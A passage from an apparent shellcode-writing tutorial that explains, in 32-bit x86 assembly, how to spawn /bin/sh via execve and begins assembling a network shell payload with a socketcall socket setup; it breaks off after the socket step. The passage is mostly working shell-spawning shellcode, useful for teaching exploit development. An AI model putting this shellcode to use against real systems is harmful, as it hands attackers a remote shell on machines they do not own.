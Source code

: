 ```asm
        jns dup
```
### Execute a shell
Now we just need to execute /bin/sh with execve to give the client the shell.\
The call will be:\
execve("/bin/sh", NULL, NULL);\
We have to null terminate the string for "/bin/sh" so we will use the stack to assign it to the proper register.\
EDX is still 0'd out so we can keep it the same and also use it to make ECX 0.
Note that, for ease of writing, we want 8 characters for our string.  We can do "/bin//sh" to effectively give the same command and have the proper length.  We also want to reverse the string, split it in to 4 character sections and push it on to the stack in hex.
```asm
push edx  ; null terminate the string
push 0x68732f2f ; push hs//
push 0x6e69622f ; push nib/

mov ebx, esp    ; move null terminated string into register

mov ecx, edx    ; 0x0
mov al, 0xB     ; syscall execve
int0x80         ; execve("/bin/sh", NULL, NULL);
```
### Putting It All Together
The final product is:
```asm
global _start

section .text

_start:
	
	; clear registers
	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx
	xor edx, edx


	;***************;
	; create socket ;
	;***************;


	; 0x66 for socketcall
	mov al, 0x66

	;0x1 for socket
	mov bl, 0x1
	

	push ecx	; 0x0
	push ebx	; 0x1 SOCK_STREAM

	push 0x2	; AF_INET

	; point ecx to the stack for args
	mov ecx, esp
	int 0x80	; socketcall(SYS_SOCKET, {AF_INET, SOCK_STREAM, 0})

	; keep sockfd for later
	mov edi, eax
```